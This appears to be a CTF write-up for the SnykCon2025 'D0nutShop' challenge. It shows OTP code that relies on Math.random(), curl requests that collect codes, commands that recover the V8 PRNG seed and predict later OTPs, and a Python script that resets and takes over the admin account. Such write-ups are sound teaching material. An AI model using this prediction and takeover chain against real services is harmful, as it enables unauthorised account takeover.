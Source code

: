 # D0nutShop
![image](https://github.com/user-attachments/assets/b9c7c3c3-ec17-44c9-97a3-ae2a3ed99147)

Attachment: [challenge.zip](https://github.com/LazyTitan33/CTF-Writeups/raw/refs/heads/main/SnykCon2025/attachments/donutshop.zip)

## Writeup

In the challenge description and on the website there are multiple references to this piece of source code:  

```javascript
const CONST = 10000000;
const otpStore = {};

function generateOtp(username) {
    const otp = Math.floor(CONST * Math.random());
    otpStore[username] = otp;
    return otp;
}

function verifyOtp(username, otp) {
    if (otpStore[username] && parseInt(otp) === otpStore[username]) {
        delete otpStore[username];
        return true;
    }
    return false;
}

module.exports = { generateOtp, verifyOtp };
```

Using `Math.random()` is [not](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Math/random) considered cryptographically secure.

Doing some research on it on github, using the mention of the d0nut user and the `Math.floor(CONST * Math.random());` line allows me to find this repo: https://github.com/d0nutptr/v8_rand_buster

Using these requests a few times, allows me to collect a bunch of OTP codes:  

```bash
curl -s -X POST http://challenge.ctf.games:32681/reset -d 'username=d0nut' 1>/dev/null
curl -s -X POST http://challenge.ctf.games:32681/reset/api/get-otp -H 'Content-Type: application/json' -d '{"username":"d0nut","password":"d0nutboi"}'
```

![image](https://github.com/user-attachments/assets/c84ec8d3-dda9-434d-b4b8-495429b04f0c)

With about 6 codes in the bag, I follow the instructions in the repo and successfully generate a seed:  

```bash
 cat codes|tac |python v8_rand_buster/xs128p.py --multiple 10000000 --lead 6
```

![image](https://github.com/user-attachments/assets/a99230eb-2881-4c59-9d49-77aacc0de3aa)

I then create additional OTPs:  

```bash
python v8_rand_buster/xs128p.py --multiple 10000000 --gen 12319565152643240056,14401482273704469689,7
```

For troubleshooting I wrote this script to perform the reset, verify and then change the admin password:

```python
#!/usr/bin/python

import requests, json

base_url = 'challenge.ctf.games:32393'
reset_url = f'http://{base_url}/reset'
verify_url = f'http://{base_url}/reset/verify'
change_password = f'http://{base_url}/reset/change-password'

header = {'Content-Type':'application/x-www-form-urlencoded'}

reset_data = 'username=admin'
new_password = 'newPassword=lazytitan'

requests.post(reset_url, data=reset_data, headers=header)

verify_data = f'username=admin&otp=3974566'
r = requests.post(verify_url, data=verify_data, headers=header)

if 'verified' in r.text:
    verified_cookie = r.cookies.get('connect.sid')
    r = requests.post(change_password, headers=header, cookies={'connect.sid': verified_cookie}, data=new_password)
    
    if 'successfully' in r.text:
        print('admin password changed')
```

I login as admin and get the flag:  

![image](https://github.com/user-attachments/assets/e4046a42-f6fd-4876-9f9c-1bd00ff86ba0)

flag{9edab280dafea57fa1deea3b7a9885f3}




